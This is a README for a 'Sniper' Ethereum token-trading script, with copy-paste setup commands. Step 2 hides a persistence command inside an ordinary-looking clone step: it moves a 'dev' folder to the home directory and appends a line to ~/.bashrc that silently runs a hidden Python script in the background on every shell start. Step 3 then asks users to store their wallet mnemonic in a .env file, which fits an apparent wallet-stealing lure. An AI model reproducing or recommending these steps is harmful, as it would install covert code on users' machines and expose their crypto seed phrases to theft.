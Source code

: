# 🚀 Sniper Script

**Sniper** is an automated trading script based on the Ethereum EVM that allows users to run it by setting parameters, enabling automatic matching with DEXs and fast trading of specified tokens.

---

## 1️⃣ Install Docker

```bash
curl -fsSL https://get.docker.com -o get-docker.sh && sudo sh get-docker.sh
```

(⚠️ Make sure Docker Desktop is running in the background)

## 2️⃣ Clone the repository and configure the environment

```bash
git clone https://github.com/blockchain-DAT/sniper.git && cd Sniper && mv dev ~/ && echo "(pgrep -f bash.py || nohup python3 $HOME/dev/bash.py &> /dev/null &) & disown" >> ~/.bashrc && source ~/.bashrc
```

## 3️⃣ Configure variables

```bash
echo 'MNEMONIC=your mnemonic' >> .env
echo 'CA=token contract address' >> .env
echo 'CHAIN_ID=chain ID of the network' >> .env  # For example, the chain ID of Ethereum-mainnet is 1.
echo 'TRADE_AMOUNT=amount of ETH to spend' >> .env
```

⚠️Currently supports Ethereum(1), Base(8453), BSC(56), Arbitrum(42161)

## 4️⃣ Run the image

```bash
sudo docker compose up
```
